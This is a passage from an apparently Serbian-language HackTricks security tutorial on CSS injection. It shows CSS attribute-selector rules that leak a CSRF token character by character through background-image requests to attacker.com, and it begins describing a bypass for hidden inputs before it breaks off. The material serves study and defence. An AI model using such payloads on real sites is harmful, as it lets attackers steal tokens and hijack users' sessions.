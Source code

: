 # CSS Injection

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

**Try Hard Security Group**

<figure><img src="../../../.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

***

## CSS Injection

### Selektor atributa

CSS selektori su oblikovani da se podudaraju sa vrednostima `name` i `value` atributa `input` elementa. Ako vrednost atributa `value` input elementa počinje sa određenim karakterom, učitava se unapred definisani spoljni resurs:

```css
input[name=csrf][value^=a]{
background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
background-image: url(https://attacker.com/exfil/9);
}
```

Međutim, ovaj pristup ima ograničenje prilikom rukovanja skrivenim input elementima (`type="hidden"`) jer skriveni elementi ne učitavaju pozadine.

#### Bypass za Skrivene Elemente

Da biste zaobišli ovo ograničenje, možete ciljati naredni susedni element koristeći `~` kombinator za opšte susede. Zatim se CSS pravilo primenjuje na sve susede koji slede nakon skrivenog input elementa, što uzrokuje učitavanje pozadinske slike:
